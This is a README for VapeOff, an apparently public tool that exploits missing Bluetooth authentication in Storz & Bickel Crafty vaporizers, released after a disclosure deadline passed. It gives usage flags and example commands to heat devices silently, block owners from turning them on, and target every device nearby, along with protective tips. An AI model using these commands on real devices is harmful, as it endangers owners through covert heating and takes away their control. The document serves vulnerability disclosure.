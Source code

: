 # VapeOff
VapeOff is a tool wich uses the lack of authentication in the communication protocoll, to control vaporizers (at the moment only the Crafty) from Storz&Bickel. The issue was reported to Storz&Bickel on 15 August 2019. The 90 days deadline expired on 13.11.2019 without reaction, and therefore this script will be published without fix for the devices.

Currently it is possible to heat devices up (without led and vibration) and prevent shutdown by the owner, to prevent turning devices on and to let all craftys (with enabled bluetooth) in proximity vibrate and blink.

## Usage
```
usage: vapeoff.py [-h] [-i INTERFACE] [-m MAC] [-a] [-o] [-p] [-s] [-f]
                  [-t TARGET_TEMP] [-l] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        specify interface (default: hci0)
  -m MAC, --mac MAC     specify target mac (default: None)
  -a, --all             attack all devices in area, overwrites '--mac'
                        (default: False)
  -o, --heat            start device(s) (default: False)
  -p, --perm            enable permanent bluetooth (default: False)
  -s, --silent          deactivate vibration and leds of devices (default:
                        False)
  -f, --vibrate         let devices vibrate (default: False)
  -t TARGET_TEMP, --target_temp TARGET_TEMP
                        sets the target temperature (default: None)
  -l, --list-devices    run discovery and print macs of supported devices in
                        the area. Can be combined with '--mac' and '--all'
                        (default: False)
  -v, --verbose
```

## Examples

Turning all Crafty's (with bluetooth enabled) on in proximity and activates permament bluetooth.
```
python3 vapeoff.py -o -a --perm
```
Turning on only a specified device without notification of the owener
```
python3 vapeoff.py -o -m [MAC] --silent
```

Preventing tuning on of all Crafty's in proximity
As soon as the device is turned on this script connects and stops the heating.
```
python3 vapeoff.py -a
```

Letting all Crafty's (with bluetooth enabled) in proximity vibrate and blink
```
python3 vapeoff.py -a -f
```

## Workarounds

a) Sometimes disconnecting fails. In this case the connection must be disconnected manually. This is possible via Bluetooth Manager or resetting the Bluetooth interface. 

## What can i do to protect my Crafty?
1. Turn off permament bluetooth.
2. Connect your smartphone to your Crafty as soons as you turn it on.
3. If you realize that your device is heating up without your interaction, leave the area as a bluetooth connection is needed. Make sure permanent bluetooth was not activated.

## Why do you release this tool?
Because wether i release it or not the attack is possible. I hope that the release puts pressure on Storz & Bickel to fix this issue.

## Dependencies
* python3
* bitstring
* gatt>=0.2.7
